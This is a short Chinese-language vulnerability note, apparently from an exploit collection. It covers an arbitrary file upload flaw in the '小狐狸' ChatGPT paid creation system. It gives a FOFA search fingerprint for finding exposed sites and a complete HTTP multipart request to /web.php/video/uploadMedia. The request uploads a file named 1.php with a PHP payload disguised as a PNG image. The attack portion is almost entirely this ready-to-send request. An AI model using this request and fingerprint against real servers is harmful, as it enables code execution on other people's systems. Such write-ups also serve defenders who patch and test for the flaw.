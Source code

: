 # 小狐狸Chatgpt付费创作系统存在任意文件上传漏洞

**小狐狸GPT付费体验系统的开发基于国外很火的ChatGPT，这是一种基于人工智能技术的问答系统，可以实现智能回答用户提出的问题，提供更加精准的答案。同时，小狐狸GPT付费体验系统采用了最新的GPT3.5接口与GPT4模型，同时还支持型，文心一言，腾讯混元，讯飞星火，通义千问，智普等等国内各种大模。**

漏洞利用需要平台用户登录

## fofa

```yaml
"/web/static/css/chunk-elementUI.f92cd1c5.css"
```

## poc

```python
POST /web.php/video/uploadMedia HTTP/1.1
Host: 127.0.0.1:81
Content-Length: 594
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="101"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryhp8gBUbCczcaLGAa
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=662e1cea3d0191
Connection: close

------WebKitFormBoundaryhp8gBUbCczcaLGAa
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/png

你的图片数据
<?php phpinfo();?>
------WebKitFormBoundaryhp8gBUbCczcaLGAa--
```

![image-20240803224143229](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408032241325.png)



## 漏洞来源

- https://mp.weixin.qq.com/s/6twkv3r0mg5OuNLD0OGwdg